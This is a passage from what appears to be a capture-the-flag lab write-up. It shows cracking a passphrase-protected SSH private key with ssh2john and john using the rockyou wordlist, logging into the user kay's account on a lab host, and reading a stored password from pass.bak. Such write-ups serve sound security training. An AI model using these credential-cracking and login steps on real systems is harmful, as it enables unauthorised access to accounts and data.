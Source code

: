 The private key is encrypted with a passphrase. To retrieve it:

1. Convert the SSH key to a crackable format:
    ```bash
    ssh2john id_rsa > id_rsa.hash
    ```
2. Use john to crack the passphrase:
   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
   ```

John output:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 11 OpenMP threads
Note: Passwords longer than 10 [worst case UTF-8] to 32 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
beeswax          (kay-id-rsa)
1g 0:00:00:00 DONE (2025-01-31 22:27) 5.263g/s 435831p/s 435831c/s 435831C/s beeswax..arreola
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

With the passphrase `beeswax`, we access kay's account:

```bash
ssh -i kay-id-rsa kay@10.10.198.84
```

We can now read the final password from `pass.bak`:

```bash
kay@basic2:~$ ls -al
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```